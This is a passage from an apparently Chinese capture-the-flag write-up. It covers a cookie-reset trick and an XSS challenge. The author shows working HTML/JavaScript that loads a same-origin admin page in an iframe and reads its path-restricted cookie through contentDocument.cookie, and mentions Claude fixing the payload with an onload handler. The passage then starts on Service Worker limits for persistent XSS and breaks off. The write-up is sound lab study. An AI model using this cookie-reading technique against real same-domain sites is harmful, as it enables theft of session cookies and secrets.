 这样解法就确定了，首先刷新关卡，得到一个剩余3次猜测的cookie，然后用这个cookie重复Level 1的穷举策略，即可得到正确答案。



## 第三新XSS

### flag1

题目要求对同一个域名的网站进行XSS攻击，题目给的自由度很大，允许在主域名下建立任何类型的网页。审计源码发现，正常情况下应该是共享cookie的，唯一的阻碍是受害者给cookie加入了path参数。

```javascript
document.cookie = "flag={...}; path=/admin"
```

遇事不决先查文档，[文档](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie#%E5%AE%89%E5%85%A8)说路径限制并不能阻止从其他路径访问cookie，同源策略不会保护相同域名的网站，甚至还教了做法，可以用iframe访问其`contentDocument.cookie`属性。先写了一段测试代码，成功弹出目标网站的信息：

```html
<iframe id="xss" src="../admin"></iframe>

<script>
var iframe = document.getElementById("xss");
alert(iframe);
var iframeDoc = iframe.contentDocument;
alert(iframeDoc);
document.title = iframeDoc.cookie;
</script>
```

看起来是搞定了，删掉alert准备上传，结果……并没有拿到flag？？继续调试，发现居然是alert的问题，一旦删掉alert就会失效。请教一下万能的大模型：

![](/img/geek3/claude.png)

**优！雅！**在Claude的帮助下重写代码拿到flag。

```html
<iframe id="xss" src="../admin"></iframe>

<script>
var iframe = document.getElementById("xss");
iframe.onload = function() {
  var doc = iframe.contentDocument; 
  document.title = doc.cookie;
}
</script>
```

### flag2

学习[Service Worker](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers)，这是一种网页缓存机制，可以用于[持久化XSS攻击](https://cloud.tencent.com/developer/article/1745908)，但是有很多安全限制：

> 1. 只能注册同源下的js
>
> 2. 站内必须支持Secure Context，也就是站内必须是`https://`或者`http://localhost/`
>
> 3. Content-Type必须是js
>
> - text/javascript
>
> - application/x-javascript
>
> - application/javascript
>
> 4. 必须用站内脚本注册，且作用域（Scope）必须是在脚本目录之下
